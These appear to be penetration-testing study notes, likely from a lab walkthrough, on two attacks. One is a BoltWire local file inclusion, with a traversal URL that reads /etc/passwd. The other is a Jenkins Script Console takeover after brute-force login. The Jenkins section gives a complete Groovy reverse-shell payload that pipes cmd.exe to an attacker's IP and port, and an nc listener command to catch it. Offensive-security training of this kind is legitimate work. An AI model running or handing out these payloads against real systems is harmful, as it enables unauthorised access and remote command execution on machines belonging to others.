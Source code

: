 
#### Local File Inclusion (Bolt Wire exploit):

- Bolt wire has a local file inclusion exploit, which can used to navigate to the linux paths and read the contents of the file using path traversal or backtracking the path.
- Local File Inclusion, can be done as below:
	- `http://{ip-address}/boltwire/index.php?p=action.search&action=../../../../../../../etc/passwd`
	- After the search action parameter in the path, we can traverse back to the root folder with the ../ and after few enumerations, we can fetch the /etc/passwd file to check the user details of the machine.


#### Reverse Shell Using Jenkins (Script Console):

- Once the jenkins is accessed with brute force and password spraying attack, In Manage Jenkins tab, we have access to Jenkins CLI or  Script Console.
- In this attack, we are using Script Console of jenkins to gain access to the command prompt of the machine.
- Once we have opened the script console, in google search for the jenkins script console exploit, you will find reverse shell groovy script in github, copy and paste it in the script console.
	- https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
	- Payload:
		  `String host="localhost";`
		  `int port=8044;`
		  `String cmd="cmd.exe";`
		  `Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();`
		- Update the localhost to the attacker's ip-address, and change the port if required.
		- Before running the script, make sure to listen to that port in the attacker's machine using:
			- `nc -nvlp 8044`
		- Then running the script will provide the command prompt access with the logged in user.

